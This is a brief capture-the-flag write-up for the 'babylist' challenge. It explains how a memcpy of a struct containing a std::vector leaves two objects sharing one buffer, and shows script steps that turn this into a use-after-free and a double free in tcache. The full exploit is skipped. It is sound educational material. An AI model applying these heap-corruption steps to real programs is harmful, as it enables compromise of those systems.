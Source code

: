# babylist
In the duplicate_list function, there is a bug:
```
list[i] = new;
 memcpy(list[i], list[old], 0x88uLL);  
```

Each list object (structure) there is a vector field that becomes the attack surface

```
struct list_object {
	char name[0x70];
	struct vector (std::vector);
}
```

If a vector object is extended beyond its original size the original vector buffer is free'd and a longer one is allocated for it. So, if we do this it triggers a use-after-free bug.

```
    create("uaf1\n") #0
    add(0,1234)
    add(0,5678)
    dup(0,"uaf2\n") #1
    create("free\n") #2

    # free vec(free)
    for i in range(5):
        add(0x2,0x1)

    # free vec(uaf1)    
    for i in range(5):
        add(0x0,0x1)
```

Because uaf1's vector is extended from size 2 to size 7, its original vectors pointers are freed, but they are still used by uaf2's vectors. This gives us two primitives: UAF and double free. These primitives in `tcache` is so powerful so I'll skip the specific exploit process


